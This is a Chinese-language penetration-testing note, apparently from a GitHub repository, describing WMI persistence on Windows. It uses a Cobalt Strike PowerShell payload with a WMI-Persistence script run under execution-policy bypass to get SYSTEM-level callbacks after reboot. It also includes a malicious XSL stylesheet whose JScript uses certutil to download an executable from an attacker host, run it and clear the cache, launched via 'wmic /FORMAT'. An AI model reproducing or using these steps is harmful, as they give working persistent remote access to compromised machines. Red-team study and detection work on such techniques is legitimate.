 	https://gitee.com/RichChigga/WMI-Persistence
	cobalt strike ->payload generator->powershell(use x64)
![image](/assets/Pentest_Note/master/img/525.png)

	attack->文件下载，文件选择payload generator的脚本，local uri为随意文件
![image](/assets/Pentest_Note/master/img/526.png)

	生成后地址替换进WMI-Persistence脚本内
![image](/assets/Pentest_Note/master/img/527.png)

	# powershell -exec bypass
	PS > Import-Module .\WMI-Persistence.ps1
	PS > Install-Persistence
![image](/assets/Pentest_Note/master/img/528.png)

	PS > Check-WMI  重启后即可上线system权限(要等待4-6分钟)
![image](/assets/Pentest_Note/master/img/529.png)

	自定义上线
![image](/assets/Pentest_Note/master/img/530.png)

	attack->文件下载，exe木马指定为文件。local uri为随意文件，wmi.xsl放在web目录
![image](/assets/Pentest_Note/master/img/531.png)

	修改wmi.xsl
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c certutil -urlcache -split -f http://192.168.0.107/load.jpg %temp%/load.exe & %temp%/load.exe & certutil.exe -urlcache -split -f http://192.168.0.107/load.jpg delete",0);
    ]]> </ms:script>
</stylesheet>

```
![image](/assets/Pentest_Note/master/img/532.png)

	WMI-Persistence脚本修改payload地址为wmi.xsl
	$finalPayload=" wmic os get /FORMAT:`"$Payload`""
![image](/assets/Pentest_Note/master/img/533.png)

	>powershell -exec bypass
	PS > Import-Module .\WMI-Persistence.ps1
	PS > Install-Persistence
	PS > Check-WMI
	PS > Remove-Persistence 删除模块
	重启后即可上线
![image](/assets/Pentest_Note/master/img/534.png)